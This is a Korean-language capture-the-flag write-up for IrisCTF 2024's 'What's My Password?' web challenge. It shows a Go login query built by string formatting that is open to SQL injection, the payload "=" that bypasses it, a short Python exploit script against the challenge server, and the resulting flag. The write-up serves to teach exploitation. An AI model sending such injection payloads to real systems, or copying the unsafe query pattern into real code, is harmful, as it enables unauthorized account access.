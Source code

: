 # IrisCTF 2024


### CTFtime: https://ctftime.org/event/2085/
### Official URL: https://2024.irisc.tf/challenges?category=Web+Exploitation

## 1. What's My Password?

### setup.sql
```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;

```
`skat` 계정의 패스워드를 탈취하면 플래그를 획득할 수 있다.

## main.go 
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()
```
위 쿼리문에서 SQL Injection 취약점이 존재하여 `{"username": "skat", "password": "\"=\""}` 입력을 통해 쿼리를 조작하여 `skat` 패스워드를 알아낼 수 있다. 

## Exploit Code
```python
import requests

url = "https://whats-my-password-web.chal.irisc.tf"
r = requests.post(f"{url}/api/login", json={"username": "skat", "password": "\"=\""})

print(r.text)
```

### `irisctf{my_p422W0RD_1S_SQl1}`